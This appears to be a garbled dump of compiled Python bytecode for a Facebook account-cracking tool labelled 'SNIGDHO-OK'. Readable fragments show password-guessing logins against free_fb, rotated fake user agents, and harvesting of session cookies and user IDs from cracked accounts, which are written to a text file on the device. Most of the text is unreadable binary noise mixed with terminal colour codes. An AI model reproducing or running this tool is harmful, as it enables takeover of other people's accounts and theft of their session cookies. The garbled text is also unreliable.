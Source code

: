 z[[38;5;225mSNIGDHO-OKz] [38;5;34mz | z[[38;5;225mCOOKIEz] [38;5;31m=>>> [38;5;175mz/sdcard/SNIGDHO-AFRIDI-OK.txtr2  �|�
)"r�  �stdout�writer�  r�  �loopr�  r�  �GGr+  r.  �flushr�  �Sessionr  r
  �ugenr�  r�  �re�searchr�  �group�post�cookies�get_dict�keysr�  �items�findallr�  �openr)  �	Exception)
r7  r=  �session�pas�ua�free_fb�log_data�
header_freefb�lo�log_cookies�coki�uid�es
                r�  r-  r-  L  s%  � ��J���`�!�`�`�a�`��`�`��`�`�a�`�`�SU�`�WZ�[]�W^�W^�`�`�a�a�a��J�������� � �G�+
�� '	� '	�C���t�$�$�B��k�k�">�?�?�D�G��i� :�C��L�L�I�I�O�O�PQ�R�R��i� >��G���M�M�S�S�TU�V�V��9�8�#�g�,�,�G�G�M�M�a�P�P���4�c�'�l�l�C�C�I�I�!�L�L��!$����	� 	�H� *��� `�2�/�/�[� $�"-�(�(�+�),��� �M�  ���|�  CK�  Ta��  b�  b�  g�B���0�0�2�2�7�7�9�9�K��;�&�&��X�X�a�a�g�o�>V�>V�>X�>X�>^�>^�>`�>`�a�a�a�b�b���j�!1�4�8�8��;���Z�R�Z�Z�"�Z�Z�S�Z�Z�UX�Z�Z�[�[�[��b�R�b�b�b�b�b�\`�b�b�c�c�c��4�S�9�9�?�?��C����C��PT�@T�UY�@Y�Z�Z�Z��	�	�#��������a������� 
� 
� 
�����������
���s   �I2L	 �	
L�L)br�  r�  r�  r  r�  �jsonr  r�  �	mechanize�bs4�shutil�rich�
subprocessrt  �platform�concurrent.futuresr   r*  r   �sop�ModuleNotFoundErrorr�  r�  r�  r�  r�  r�  r�  r�  r�  r�  r�  rp  ro  r.  r(  rs  r
  �gtr'  �xdr8  �br�  �c�g�	randrange�h�i�j�k�l�uaku2r)  �agent�d�f�fullagntr�  r2  �ug�x�uakua�txxxtt�ffg�t�random1�brayen1�brayen2�xdx�build_nokiax�randint�rr�rc�miui_v3�miui_v1�miui_v2�aZ�basa�ugent1�ugent2�ugent3�memekkr�  r�  r�  r�  �getpass�attempsr�  �usernamer�  r�  r  r�  r�  r   r-  r�  r�  r�  �<module>r�     s4  �� � � � � � � � � � � � � � � � � � � � � � � � � � � � �
�(�(�(�(�(�(�(�(�(�(�(�(�(�(�(�(�&�&�&�&�&�&�&�&�&�&�&�&�&�&�&�&�>�>�>�>�>�>�(�(�(�(�(�(�!�!�!�!�!�!�!��� 
� 
� 
�	�E�!�H�H�H�H�H�H�H�H�����
���� �������������������1���q���1����������	��	���V�]�  EE�  EE�  EE�  FE�  FE��
�%��,�,� � �B�+��
�&�-�=�=�=�
>�
>��
�S�S��W�W�
�
��
:��
�&�
�2�c�
"�
"��

��
�&�
�4��
%�
%��
�&�
�2�c�
"�
"��
 ���6�6�a�6�6�1�6�6��6�1�6�6�q�6�6�1�6�6�q�6�6�1�6�6�����E�����
�U�5�\�\� � �E�/��
�&�-�8�8�8�
9�
9��
7��
�&�-�  Z�  Z�  Z�  [�  [��